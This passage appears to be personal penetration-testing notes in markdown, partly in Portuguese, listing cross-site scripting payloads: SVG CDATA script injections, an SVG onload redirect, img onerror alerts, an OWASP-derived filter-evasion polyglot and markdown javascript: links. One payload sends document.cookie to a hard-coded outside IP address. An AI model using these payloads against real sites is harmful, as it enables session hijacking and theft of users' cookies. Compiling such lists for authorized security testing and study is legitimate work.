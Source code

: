             <svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
            <svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
            <svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
            ```
            
            ```markdown
            <code>
            <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
            <svg
            onload="window.location='http://www.example.com'"
            xmlns="http://www.w3.org/2000/svg">
            </svg>
            </code>
            ```
            
            ```markdown
            <script>alert(1)</script>
            
            ```
            
            ```bash
            <img src=x onerror=alert(1) />
            ```
            
            ```bash
            <img src=x onerror=this.src="http://143.198.18.214/?c="+document.cookie>
            ```
            
        - Evasion XSS
            
            https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
            
            ```bash
            javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
            ```
            
        - Markdown XSS
            
            ```markdown
            [Basic](javascript:alert('Basic'))
            ```
            
            ```markdown
            [a](javascript:prompt(document.cookie))
            ```
            
        - Coisas uteis para recuperar via xss:
            - [ ]  document.domain (URL)
            - [ ]  
        - Extras payloads:
            
            ```jsx
            https://tinyxss.terjanq.me/
            ```
            